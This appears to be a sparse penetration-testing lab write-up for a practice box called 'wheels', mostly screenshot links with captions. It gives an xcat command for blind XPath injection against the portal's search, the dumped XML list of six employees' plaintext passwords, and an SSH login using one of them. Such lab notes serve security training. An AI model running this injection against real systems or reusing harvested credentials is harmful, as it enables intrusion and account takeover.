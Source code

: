 ![080bbfde5c8f4e3b7fbcb9ee09498b2d.png](../_resources/080bbfde5c8f4e3b7fbcb9ee09498b2d.png)

register as admin
![490b7fff7027a0c4def225861e6926c1.png](../_resources/490b7fff7027a0c4def225861e6926c1.png)

no admin
![d0f7352faae5cbcabaf35582fa95f0d9.png](../_resources/d0f7352faae5cbcabaf35582fa95f0d9.png)

emp portal
![5a7d1ebd2ebcf0e7feadc9b9ab036940.png](../_resources/5a7d1ebd2ebcf0e7feadc9b9ab036940.png)

assets
![cc6ede1f73c60f471f78a458b2ba71c5.png](../_resources/cc6ede1f73c60f471f78a458b2ba71c5.png)

wheels.service
![321457c15fe49303e7e54936749008a3.png](../_resources/321457c15fe49303e7e54936749008a3.png)

reg service
![974204e5ef18b3bb9f0f674ca9489c1e.png](../_resources/974204e5ef18b3bb9f0f674ca9489c1e.png)

emp portal success
![a69786d5d1848b7b232743056b8d8d9d.png](../_resources/a69786d5d1848b7b232743056b8d8d9d.png)

search car
![41ad275874e16145013293e941e2d769.png](../_resources/41ad275874e16145013293e941e2d769.png)

search bike
![f0d984907ebfded2c82bc71ec5a5c4e6.png](../_resources/f0d984907ebfded2c82bc71ec5a5c4e6.png)

sqli/xxe?
![40c3af69246605d8007d4e768025e634.png](../_resources/40c3af69246605d8007d4e768025e634.png)

https://xcat.readthedocs.io/

`xcat run http://wheels.service/portal.php --headers=headers.txt work work=bike --true-string=dan`

![77fc2c78348a90e39df09a36aeeb7d12.png](../_resources/77fc2c78348a90e39df09a36aeeb7d12.png)

```
<works>
	<work>
		<id>
			1
		</id>
		<employee>
			bob
		</employee>
		<password>
			Iamrockinginmyroom1212
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			2
		</id>
		<employee>
			alice
		</employee>
		<password>
			iamarabbitholeand7875
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			3
		</id>
		<employee>
			john
		</employee>
		<password>
			johnloveseverontr8932
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			4
		</id>
		<employee>
			dan
		</employee>
		<password>
			lokieismyfav!@?12
		</password>
		<service>
			bike
		</service>
	</work>
	<work>
		<id>
			5
		</id>
		<employee>
			alex
		</employee>
		<password>
			alreadydead???234
		</password>
		<service>
			bike
		</service>
	</work>
	<work>
		<id>
			6
		</id>
		<employee>
			selene
		</employee>
		<password>
			lasagama90809!@
		</password>
		<service>
			bike
		</service>
	</work>
</works>
```

`$ ssh bob@wheels.pg`

![675f4bded1e322c7a2222608bd686a9e.png](../_resources/675f4bded1e322c7a2222608bd686a9e.png)

![6377e4f9f7a683ca73f7b2ddb037a8bb.png](../_resources/6377e4f9f7a683ca73f7b2ddb037a8bb.png)

![87330c64d1239848a65df039a9a86e8f.png](../_resources/87330c64d1239848a65df039a9a86e8f.png)

![df51f3854666b4c7b96be5f7979d1b0c.png](../_resources/df51f3854666b4c7b96be5f7979d1b0c.png)